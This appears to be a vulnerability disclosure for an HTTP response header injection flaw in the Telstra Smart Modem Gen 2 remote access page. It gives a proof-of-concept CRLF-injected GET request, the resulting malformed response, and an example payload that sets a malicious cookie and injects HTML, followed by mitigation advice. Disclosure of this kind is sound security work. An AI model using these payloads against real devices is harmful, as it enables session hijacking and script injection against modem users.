# Telstra-RHI

A vulnerability was recently discovered in the HTTP(S) remote access webpage for the Telstra Smart Modem Gen 2. This vulnerability allows for HTTP Response Header Injection, giving attackers the ability to manipulate HTTP headers and potentially inject malicious payloads into server responses. The issue is caused by user-supplied data being unsafely copied into the Content-Disposition response header without proper validation or sanitization.

This vulnerability was demonstrated by sending a specially crafted HTTP GET request to the server, targeting the robots.txt resource with a malicious payload embedded in the URL path:
"""
GET /robots.txtcy4y9%0d%0ai3o0z HTTP/1.1
Host: *.***.**.***
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Connection: close
Cache-Control: max-age=0
"""
This request appends the payload 'cy4y9%0d%0ai3o0z' to the resource path in the URL. The %0d%0a sequence breaks out of the expected header structure, allowing for the injection of new headers or manipulation of the response body. The server then processed the request and returned the following malformed response:
"""
HTTP/1.1 302 Found
Server: nginx/1.15.10
Date: Mon, 13 Jan 2025 04:30:25 GMT
Content-Type: text/html
Content-Length: 0
Connection: close
Content-Disposition: attachment; filename=robots.txtcy4y9
i3o0z: 
Location: /relogin.htm
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: none
X-Frame-Options: SAMEORIGIN
Access-Control-Allow-Origin: http://mymodem.gateway:85
"""
In this response, the Content-Disposition header is constructed with the user-supplied value robots.txtcy4y9, but the %0d%0a sequence terminates this header prematurely. This results in the creation of a new, invalid header: 'i3o0z:'. By including additional payloads beyond the %0d%0a, an attacker could inject arbitrary HTTP headers or even initiate the response body with crafted content. For example, inserting %0d%0aSet-Cookie: sessionid=malicious%0d%0a%0d%0a<html> could set a malicious cookie and inject HTML or JavaScript into the response body.

Attempts have been made to contact Telstra Support about this vulnerability, however no reply was received. Strategies to mitigate this vulnerability have been listed below:
- Confirm that all user-supplied input is sanitized before being incorporated into HTTP headers.
- Reject all input that contains control characters or other unsafe combinations.
- Encode user input to neutralize special characters before including it in headers.
